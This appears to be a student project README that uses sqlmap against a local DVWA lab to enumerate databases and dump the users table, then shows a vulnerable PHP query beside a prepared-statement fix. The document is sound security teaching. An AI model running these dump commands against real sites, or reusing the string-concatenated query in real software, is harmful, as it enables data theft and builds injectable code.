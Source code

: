 
---

```markdown
# 🔐 SQL Injection Exploitation & Mitigation Project

### 🎯 **b) Exploit and Secure a SQL Injection Vulnerability (10 Marks)**

---

## 📌 Overview

This project demonstrates how to **exploit** a vulnerable web application (DVWA) using **SQLMap**, extract sensitive data from its database, and apply **secure coding practices** to prevent such attacks in real-world scenarios.

---

## 🧰 Tools Used

- ✅ SQLMap (automated SQL injection tool)
- ✅ Python (for automation)
- ✅ DVWA (Damn Vulnerable Web App - testbed)
- ✅ Docker (to run DVWA locally)

---

## ✅ TASK CHECKLIST

✔️ Use SQLMap to exploit a test website  
✔️ Extract data from the database  
✔️ Apply secure coding practices to prevent SQL injection  
✔️ Provide step-by-step execution, extracted data, and security measures  

---

## ⚙️ Step 1: Setup DVWA Locally (Test Target)

### 🔧 Requirements

- Docker
- Docker Compose
- Git

### 🛠️ Commands

```bash
git clone https://github.com/digininja/DVWA.git
cd DVWA
```

Create a `docker-compose.yml`:

```yaml
services:
  dvwa:
    image: vulnerables/web-dvwa
    ports:
      - "8080:80"
    restart: always
```

Start DVWA:

```bash
docker-compose up -d
```

Login at [http://localhost:8080](http://localhost:8080)  
- Username: `admin`  
- Password: `password`  
- Set **Security Level** to **Low**

---

## 🐍 Step 2: Exploit SQL Injection Using Python + SQLMap

### 🔑 Prerequisites

- Ensure `sqlmap` is installed (`pip install sqlmap` or `pacman -S sqlmap`)
- Copy your browser cookies (`PHPSESSID`, `security=low`)

### 🚀 Run Exploit Script

```bash
python3 sqlmap_automation.py
```

### 📄 What It Does (Automated):

```bash
# Step 1: List all databases
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="..." --dbs

# Step 2: List tables in 'dvwa'
sqlmap -u "..." -D dvwa --tables --cookie="..."

# Step 3: Dump data from 'users' table
sqlmap -u "..." -D dvwa -T users --dump --cookie="..."
```

### 📂 Output Location

All extracted files (CSV, logs, dump) will be saved in:

```
./sqlmap_output/localhost/dump/dvwa/users.csv
```

### 📊 Extracted Data (Sample)

| user_id | user    | password (hashed)                          |
|---------|---------|--------------------------------------------|
| 1       | admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
| 2       | gordonb | e99a18c428cb38d5f260853678922e03 (abc123)  |
| ...     | ...     | ...                                        |

---

## 🛡️ Step 3: Apply Secure Coding Techniques

### ❌ Vulnerable Code Example (PHP):

```php
$id = $_GET['id'];
$query = "SELECT * FROM users WHERE id = '$id'";
```

### ✅ Secure Code with Prepared Statement:

```php
$id = $_GET['id'];
$stmt = $pdo->prepare("SELECT * FROM users WHERE id = ?");
$stmt->execute([$id]);
```

### 🔐 Other Mitigations

- Use **ORMs** like SQLAlchemy or Django ORM
- Validate and sanitize all user inputs
- Use least privilege DB accounts
- Log and monitor SQL errors or anomalies

---